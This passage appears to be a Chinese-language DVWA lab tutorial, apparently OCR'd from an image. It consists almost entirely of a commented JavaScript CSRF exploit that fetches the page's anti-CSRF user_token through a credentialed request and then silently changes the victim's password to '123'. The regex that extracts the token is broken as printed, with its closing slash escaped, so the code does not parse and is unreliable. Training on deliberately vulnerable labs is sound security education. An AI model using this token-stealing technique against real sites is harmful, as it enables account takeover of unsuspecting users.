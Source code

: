 使用js,通过ajax来进行,需要更改里面的IP地址为你需要的IP地址

```javascript
var tokenUrl = 'http://192.168.1.187/DVWA-master/vulnerabilities/csrf/';
// 定义tokenUrl变量，指向CSRF漏洞的URL地址

if (window.XMLHttpRequest) {
    // 检查浏览器是否支持XMLHttpRequest对象
    xmlhttp = new XMLHttpRequest();
} else {
    // 如果不支持，使用ActiveXObject创建Microsoft.XMLHTTP对象（在IE浏览器中）
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}

var count = 0;
// 初始化计数器count，用于控制请求次数

xmlhttp.withCredentials = true;
// 启用XMLHttpRequest对象的跨域请求功能

xmlhttp.onreadystatechange = function () {
    // 定义XMLHttpRequest对象的回调函数，用于处理响应数据
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
        // 检查请求状态和响应状态码是否都为成功
        var text = xmlhttp.responseText;
        // 存储响应文本

        var regex = /user_token\' value\=\'(.*?)\'\/;
        // 使用正则表达式匹配包含"user_token"值的部分
        var match = text.match(regex);
        // 执行匹配操作

        var token = match[1];
        // 从匹配结果中提取"user_token"的值

        var new_url = 'http://192.168.1.187/DVWA-master/vulnerabilities/csrf/?user_token=' + token + '&password_new=123&password_conf=123&Change=Change';
        // 构建新的URL，包括提取的"user_token"

        if (count === 0) {
            // 检查计数器是否为0，以防止多次发送请求
            count++;
            xmlhttp.open("GET", new_url, false);
            // 打开新的GET请求，将新URL传递给服务器
            xmlhttp.send();
            // 发送GET请求
        }
    }
};

xmlhttp.open("GET", tokenUrl, false);
// 打开第一个GET请求，请求CSRF漏洞页面以获取令牌
xmlhttp.send();
// 发送第一个GET请求
```

